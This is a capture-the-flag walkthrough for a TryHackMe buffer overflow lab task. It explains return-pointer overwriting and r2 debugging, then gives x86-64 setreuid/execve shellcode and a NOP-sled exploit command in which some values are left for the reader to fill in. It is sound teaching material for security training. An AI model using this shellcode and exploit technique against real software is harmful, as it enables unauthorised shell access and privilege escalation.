

# Walkthrough for the Buffer Overflow Room - Task 9
This write-up explains the basics of buffer overflows and how it applies to Task 9. 

## Concepts you should know before tackling the room
You should be able to...
1. distinguish concepts such as a stack, a frame and a heap; 
2. understand C programs and in particular, what are pointer objects. 
3. have a decent understanding of the Assembly language. 
4. understand the basic commands of a decompiler (`r2` or `gdb`, on Kali): set breaking points (`db`), read registers (`dr`) and a particuler address in memory (`px @`). 
4. understand what Assembly instructions like `call` and `ret` perform in the backend. 

### Great readings/challenges to help you achieve that:
1. Intro to assembly and r2: the THM room on [x86-assembly](https://tryhackme.com/room/introtox8664).
2. Understanding Buffer Overflows: [this tutorial](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/).
3. L1ge's write-up of [task 7 of the same rooom](https://l1ge.github.io/tryhackme_bof1/).
4. Why 1,094,795,585 should be your [favorite number](https://www.youtube.com/watch?v=bknybcgfjAk).
5. The original [research article](http://phrack.org/issues/49/14.html) on the exploitation of buffer overflows.

### Buffer overflow exploits in a nutshell. 

Think of the memory used by a function as a segment of the real line: 
```
[                             Memory dedicated to the function                             ].
```
For our purpose, you can think of this segment as having three distinct partitions: 
```
[     Function's arguments      ][   boring stuff   ][     Instruction pointer's value     ].
```
The **instruction pointer** indicates where the flow of the program should resume once the function is finished. The **goal** of a buffer overflow exploit is to change its value so that it points towards malicious code (the exploit). This can be done by providing large enough values of the function's arguments so that it _overflows_ (overwrites) the instruction pointer. Before the function ends (e.g. before the `ret` call), the memory should look like this: 
```
[    padding    ][   malicious code   ][   padding   ][     New Instruction pointer        ].
                 ^                                                      |
                 |                                                      |
                 ----------<------------points to----------<-------------
```
This new use of the memory has four characteristics: 

1. It has the same total length (in bytes) as the orginal memory structure. 
2. The function's arguments are used to inject malicious code and to overwrite the instruction pointer. (Thus, the malicous code must be smaller than the function's arguments and the memory dedicated to the "boring stuff"). 
3. The new pointer references the memory address where the malicious code is written. 
4. The malicious code is surrounded by "padding". Padding is conceptually useless, but it acts as a practical buffer for memory glitches (or errors in calculations!).  

Thus, when the function ends and the `ret` instruction is called, the code flow is redirected to the malicious code. 

Conceptually, it is as simple as that. 

In order to execute the exploit, we need to achieve the following things: 

1. Find the combined length (in bytes) of the function's arguments and of the "boring stuff". This is called finding the **offset**. 
2. Craft malicous code that fits within this memory space. 
3. Figure out the padding before and after the malicous code, so as to preserve the offset. 
4. Find the memory address where the malicous code begins, so as to include it to overwrite the pointer. 

The combination of padding, malicious code, padding and new pointer constitutes the **payload** that will be sent as the function's new arguments. 

# Going through the motions of a `ret` call
## The normal case
It is very instructive to undersand what happens when the function is executed as intended. For the purpose of this section, the following commands will be used to illustrate the pivotal points: 
```
r2 -d ./buffer-overflow-2 BBBB
```
which starts the debugger with the command `./buffer-overflow-2 BBBB`. Since "BBBB" is much smaller than the dedicated memory for the function's argument, the program will function properly. Then, within the debugger itself, the following commands can be run: 
```
aa
afl
pdf @ main              <------ first picture below
pdf @ sys.concat_arg    <----- second picture below
db 0x004005a9
dc
dr
px @ 0x7fffffffe220     <------ third picture below
ds
dr                      <----- mention #1 below
ds
ds
dr                      <----- mention #2 below
dc
```
The commands `aa` and `afl` are prerequistes for the debugger to find the important entry/exit points within the binary. The commands `pdf @ [function name]` simply display the assembly code of the given function. In such display, each instruction is preceded by a the columns showing its address in memory. The command `db [memory address]` sets a _breaking point_ to stop the program flow. The command `dc` starts or continues the execution of the program until either a breaking point or the end of the program is reached. The command `dr` shows the memory register and the command `ds` executes only one instruction of the program (that is the one following whare the program is currently at). Finally, the command `px @ [memory address]` shows the content of the memory starting at the given address and in the next 256 bytes. 

We explain the highlights of these instructions in the following paragraphs. 

The assembly code of the `main` function is shown below. One should notice that the memory address of the instruction right after the `call sys.concat_arg` is `0x004005ce`. Given how the memory related to a function call is managed, this is the address that will be in the instruction pointer's value once the function `concat_arg` is called. 



The assembly code of the `concat_arg` function is shown below. Notice that we have introduced a breaking point at the instruction `NOP` (address `0x004005a9`). This instruction is interesting because it allows us to see the content of the memory just before the `ret` instruction is performed. 


The memory at this breaking point is illustrated in the picture below. Although the picture shows a squared representation of the memory, it can be reorganised to fit the model we have presented above by putting one line after the other. 


Notice that the partition containing the function's arguments is almost empty. It begins with "doggoBBBB" (hex 646f 6767 6f41 4141 41) and is then filled with a bunch of zeros. This is because the function's argument ("BBBB") is well within the buffer size of the function. The word "doggo" is present in memory
because the chosen breaking point is at the end of the function's instructions. As such, it is after the string concatenation of the function's arguments and the string "doggo". The "boring stuff" in memory is nothing but the registery base pointer (rbp in the registery), which has the value `90e3 ffff ff7f 0000`. Since the notation is in little indian, it means that the saved registery is `0x00007fffffffe309`. Finally, the saved instruction pointer has the value `ce05 4000 0000 0000`, or `0x00000000004005ce`, which is nothing but the address of the instruction following the `call sym.concat_arg` instruction.

To sum up, our examination of the function's memory shows the following content: 

```
[646f 6767 6f41 4141   (...bunch of zeros...)      ][90e3 ffff ff7f 0000][ce05 4000 0000 0000].
```

If we keep going through the code flow, an examination of the instruction pointer at the "mention #1" will reveal that it equals `0x004005aa`, which is a memory address designating an instruction within the function. Two instructions later (mention #2), the value of the register is however equal to `0x004005ce` that is the value that was contained in the function's memory. It has been regurgitated to the main program by the `ret` instruction, so as to continue the normal flow of the program after the function ended. All of this happens in the background. Since the memory address is the one intented by the original program, the flow resumes normally and the binary does what it is supposed to do (display "doggoBBBB"). 

## The overflowed case
Consider the following code: 
```
r2 -d ./buffer-overflow-2 $(python -c "print 'A'*163 + 'B'*6")
```
and then, in the debugger command line: 
```
aa
afl
db 0x004005a9
dc
dr
px @ 0x7fffffffe220     <------ fourth picture below
ds
dr                      <------ mention #3                      
ds
ds
dr                      <------ mention #4
dc
```
This code goes through the same motions as in the previous section, but this time with a program input that has 163 consecutive A's followed by six B's (BBBBBB). This input overflows the intended buffer of function `concat_arg`: the memory allocated for the function's arguments is insufficient. A quick examination of the memory right before the `ret` instruction is called shows the following content: 


This content means, in turn, the following memory model: 
```
[646f 6767 6f41 4141 (...bunch of 41s...)        ][4141 4141 4141 4141][4242 4242 4242 0000].
```
or in plain ASCII:
```
[doggoAAAA         (...bunch of As...)           ][AA AA AA AA][BB BB BB 0000].
```
This goes to show that by overflowing the function's inputs with 163 consecutive A's, we have been able to overwrite the instruction pointer to the value `0x0000424242424242`, that is six consecutive B's. (It thus reveals an offset of 163 bytes). Of course, there is no instruction that the program can comprehend at the address `0x0000424242424242`, and so it attempting to execute it will lead to a crash. If we however refine the idea and replace the B's by an address that points to some malicious code, we will be well on our way. 

Before we move on to the rest of the write-up, it is worth nothing that before the `ret` instruction is called (mention #3) the instruction pointer in the registery is equal to `0x004005aa` while two steps later (mention #4), it equals `0x424242424242` (which is BBBBBB in hexadecimal). This is so because the `ret` instruction unpacked the value "BBBBBB" from memory and assigned it to the instruction pointer in the registery. We thus have hacked the flow of the program.  

The rest of the write-up is more practical and shows how to make something out of it. 

# Implementing the four practical steps
## 1- Identifying the offset
This has been done in the previous sections of this write-up. 

## 2- Craft the malicious code
The general strategy is very well explained in [L1ges write-up](https://l1ge.github.io/tryhackme_bof1/). In summary: 

- Use [pwntool](https://docs.pwntools.com/en/stable/) to generate the proper shell permission in your shell code. This can be done with the command: 
    ```
    $pwn shellcraft -f d amd64.linux.setreuid 1002
    ```
    (You however need to change **one** alphanumeric character from this command to actually adapt it to task 9). 
- Use the hex code that the command spits to prepend the binary shell code provided in L1ge's write-up. You should get something like:   
   ```
  \x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05
    ```
    (With **one** hexadecimal incorrectly specified that will be accurate if the proper number is changed in the previous command.)
    
    For our purpose, this is our malicious code. It is 54 bytes long, which is smaller than the offset that we have identified. 
    
## 3- Figure out the padding before and after the malicous code. 
There are three important ideas here. First, the total length of the offset must not change, so the length of the left-padding added with the length of the right padding must equal the value of the offset minus the 54 bytes of code. In mathematical terms, if `NL`, `NR` and `O` respectively designate the number of bytes of left padding, the number of bytes of right padding and the offset, we have: 
```
NL + 54 + NR = O
```
Second, the left padding must be filled with `NOPS` instructions (hex code `\x90`). The "no operation' code instructs the processor to skip to the next hex code. Thus, the left padding with `NOPS` gives us some manoeuver: if the instruction pointer lands on any `NOPS` instruction, it will be automatically forwarded towards the starting point of the malicious code. 

Third, the bytes in the right padding part should by any byte that is not seen as corrupted by the binary (see [Tib3rius' room](https://tryhackme.com/room/bufferoverflowprep) for a practical overview). For our purpose, the byte `\x41` (the letter A) works fine, but this may not be the case in all situations.

Fourth, there should be padding on both the right and left side, although it is better to put more padding on the left than on the right. There is no exact amount, saved for the cardinal rule that the total length must equal the offset (with the malicous code). 

## 4- Choose a memory address within the left padding
This address will be used to point the instruction pointer towards the malicious code. In practical situations, this could be done by trial and errors (or programmed within the malicious code). Here, we know from the previous sections where the function's memory starts. Consistent with the number of bytes for the left and right padding (numbers not shown), the example below uses "0x7fffffffe272" as the pointer redirection. Summing up, the following command can be used to perform the exploit: 
```
./buffer-overflow-2 $(python -c "print '\x90'*NL+'\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'  +'A'*NR+ '\x72\xe2\xff\xff\xff\x7f'")
```
For this command to function:
- `NL` and `NR` must be replaced by the proper numerical values; 
- One hexadecimal point must be changed to fit the needs of task 9 (see the comments related to Lige's write-up in section 2). 
- The hexadecimal address of the instruction pointer must be coherent with the values of `NL` and `NR`. 

With the proper modifications, one can get a sweet, sweet shell: 


Enjoy! 
